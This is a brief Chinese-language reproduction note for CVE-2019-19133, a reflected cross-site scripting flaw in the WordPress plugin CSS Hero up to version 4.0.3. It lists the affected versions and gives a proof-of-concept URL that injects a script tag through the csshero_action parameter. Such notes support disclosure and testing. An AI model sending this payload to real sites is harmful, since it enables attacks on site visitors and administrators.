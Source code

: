 # CVE-2019-19133 WordPress Plugin - CSS Hero 4.0.3 反射xss

### 一、漏洞简介

### 二、漏洞影响

CSS Hero插件 (<= v.4.0.3)

### 三、复现过程

首先WordPress应用中确保CSS Hero Plugin安装。

poc


```bash
hxxp://
url/?csshero_action=edit_page&rand=1015&foo%22%3E%3C/iframe%3E%3Cscript%3Ealert(%27Reflected%20XSS%20in%20CSS%20Hero%204.0.3%27)%3C/script%3E%3Ciframe%3Ebar
```